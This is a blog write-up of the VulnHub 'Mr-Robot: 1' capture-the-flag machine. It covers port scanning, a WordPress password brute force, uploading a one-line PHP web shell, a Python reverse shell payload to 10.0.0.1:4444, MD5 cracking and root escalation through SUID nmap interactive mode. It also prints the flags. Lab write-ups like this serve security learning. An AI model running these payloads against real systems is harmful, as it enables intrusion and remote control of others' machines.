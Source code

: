 ```yaml
---
layout: post
title:	"Mr-Robot: 1 Writeup"
date:	2016-12-21 21:00:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hello Friend,

This is my writeup for the CTF [Mr-Robot 1](http://www.vulnhub.com/entry/mr-robot-1,151/).

I ran nmap:

~~~
nmap -sT -sV -Pn 192.168.1.17
~~~

* -sT: full TCP scan (complete Three-Way Handshake)
* -sV: version of the services
* -Pn: skip host discovery (I had problems with ICMP echo request packets)

~~~
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-22 18:40 CEST
Nmap scan report for linux.homenet.telecomitalia.it (192.168.1.17)
Host is up (0.0014s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp closed ssh
80/tcp open http Apache httpd
443/tcp open ssl/http Apache httpd
~~~

I ran another nmap with “-p 1-65535” parameters on all ports, but nothing changed.

The website was the same on port 80 and 443:

![Screenshot]({{ site.baseurl }}/images/2016-12-21-mr-robot-1-writeup/img1.png)

It was an animated console on a fsociety machine 😛

But… look at this:

![Screenshot]({{ site.baseurl }}/images/2016-12-21-mr-robot-1-writeup/img2.png)

First Key :

~~~
073403c8a58a1f80d943455fb30724b9
~~~

There was a wordpress blog on the website. I tried to enumerate users with wpscan, but it didn’t work. After some attempts, I found that ‘eliot’ was a valid username. I ran wpscan to bruteforce the wordpress login for user ‘eliot’ with the dictionary file ‘fsocity.dic’. The password was:

~~~
ER28–0652
~~~

After logged in, I uploaded a php shell:

~~~
<?php passthru($_GET[“cmd”]); ?>
~~~

![Screenshot]({{ site.baseurl }}/images/2016-12-21-mr-robot-1-writeup/img3.png)

I got a reverse shell on netcat by using this payload:

~~~
http://192.168.1.17/wp-content/uploads/2016/10/shell.php?cmd=python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect((“10.0.0.1”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
~~~

I spawned a TTY shell:

~~~
/bin/sh: 0: can’t access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ python -c “import pty;pty.spawn(‘/bin/bash’);”
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2016/10$
~~~

Ok I found this:

~~~
daemon@linux:/home/robot$ ls -l
ls -l
total 8
-r——– 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r–r– 1 robot robot 39 Nov 13  2015 password.raw-md5
~~~

I didn’t have permission to read the second key but I found something in the password.raw-md5 file:

~~~
root:c3fcd3d76192e4007dfb496cca67e13b
~~~

I used Crack Station and I got the second key:

~~~
root:abcdefghijklmnopqrstuvwxyz

daemon@linux:/home/robot$ su – robot
su – robot
Password: abcdefghijklmnopqrstuvwxyz
$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
~~~

After some local enumeration, I found nmap with SUID set to root on the system. This [paper](http://www.exploit-db.com/papers/18168/) explains how to get a root shell:

~~~
robot@linux:/usr/local/bin$ ls -l
ls -l
total 496
-rwsr-xr-x 1 root root 504736 Nov 13  2015 nmap
robot@linux:/usr/local/bin$ nmap –interactive
nmap –interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode — press h <enter> for help
nmap> ! id
! id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
nmap> ! ls /root/
! ls /root/
firstboot_done    key-3-of-3.txt
waiting to reap child : No child processes
nmap> ! cat /root/key-3-of-3.txt
! cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
~~~

Goodbye friend.